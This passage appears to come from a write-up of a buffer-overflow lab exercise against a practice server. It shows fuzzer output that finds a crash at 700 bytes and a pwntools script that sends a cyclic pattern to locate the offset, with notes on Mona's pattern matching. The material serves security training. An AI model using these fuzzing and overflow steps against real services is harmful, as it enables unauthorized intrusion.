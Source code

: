 ```
$ python3 fuzzer.py
[+] Opening connection to 10.10.17.141 on port 1337: Done
Welcome to OSCP Vulnerable Server! Enter HELP for help.

[+] Sending: 100
OVERFLOW2 COMPLETE

[+] Sending: 200
OVERFLOW2 COMPLETE

[+] Sending: 300
OVERFLOW2 COMPLETE

[+] Sending: 400
OVERFLOW2 COMPLETE

[+] Sending: 500
OVERFLOW2 COMPLETE

[+] Sending: 600
OVERFLOW2 COMPLETE

[+] Sending: 700
[+] No Reply
[+] Possible Overflow with value: 700
[*] Closed connection to 10.10.17.141 port 1337
```

For the exploit I first tried with this python code

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
timeout = 5

bof_value = 700

payload = cyclic(bof_value + 400)

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

input_value = command.encode() + payload
r.sendline(input_value)
```

And running `!mona findmsp -distance 1100` it didn't find any cyclic pattern. So I made some research and I figured out that Mona is designed to search for unique non-repeating patterns. 

The `cyclic` function in `pwntools` generates a cyclic pattern by repeating a sequence of characters. It uses a specific algorithm that creates a unique pattern based on the length provided. This pattern is intended to be useful for identifying the offset at which the program crashes or exhibits abnormal behavior when the pattern is sent as input.
